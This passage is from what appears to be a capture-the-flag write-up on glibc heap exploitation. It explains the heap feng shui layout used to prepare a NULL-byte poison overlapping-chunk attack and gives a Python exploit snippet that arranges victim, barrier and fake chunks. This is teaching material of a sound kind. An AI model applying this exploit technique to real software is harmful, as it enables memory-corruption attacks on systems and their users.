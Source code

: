#### Additional feng shui constraints

Before going forward, there is one extra details very much related to what we
just said that needs to be taken care of.  
What we need to consider is that, for the attack to work, we will need to keep
freed at the same time the _fake chunk_, _chunk "A"_ and _chunk "B"_.
For this reason we need to make sure that also their metadata are non contiguous
in memory, otherwise they will consolidate with each other creating huge chunks
that will most likely mess up our exploitation process (or at the very least
make it much harder).  

#### Final target layout

So lets now visualise our final target layout will be (comprised of metadata
chunks), and how we will craft it.

![Final target layout](./writeup/final_target_layout.png)

We can see that the space needed for the "Metadata Memory Area" is of 6 chunks.
So lets prepare that space:
We first allocate 3 chunks of size 0x418 that will take up the needed space for
metadata chunks.  
Then we will free the first chunk at index 0 and allocate the _extra
barrier chunk_ with a size of 0x428 so that it will be taken from the top chunk.
Then we will simply allocate the _fake chunk_ that will fill the remaining
large bin and be allocated from the top chunk again.
Following these same concepts we can easily get the desired layout.

```python
##
## HEAP FENG SHUI
##
# Add chunks to prepare metadata space (idx: 0, 1, 2)
for i in range(3):
    add(0x418, f"CHUNK{i}".encode(), f"META_CHUNK{i}".encode())

# Make space for metadata of "extra barrier" and "fake" chunks
delete(0)
add(0x428, b"EXTRA_BARRIER", b"META_EXTRA_BARRIER") # idx: 0
add(0x448, b"FAKE", b"META_FAKE")                   # idx: 3

# Allocate the Vuln chunk that will trigger the NULL poison its metadata is
# placed in memory after the fake chunk. That will be the metadata target of the
# overlapping.
add(0x428, b"V"*0x228, b"META_VULN")                # idx: 4

# Create space for metadata chunks
delete(1)
# Allocate victim (victim must have size >= 0x500 to avoid the tcache)
add(0x4f8, b"VICTIM", b"META_VICTIM")               # idx: 1

# Allocate chunk A
add(0x438, b"A"*0x10, b"META_CHUNK_A")              # idx: 5
# Creating more space
delete(2)
# Allocate barrier
add(0x428, b"BARRIER_1", b"META_BARRIER_1")         # idx: 2
# Allocate chunk B and barrier
add(0x458, b"B"*0x10, b"META_CHUNK_B")              # idx: 6
add(0x428, b"BARRIER_2", b"META_BARRIER_2")         # idx: 7
```
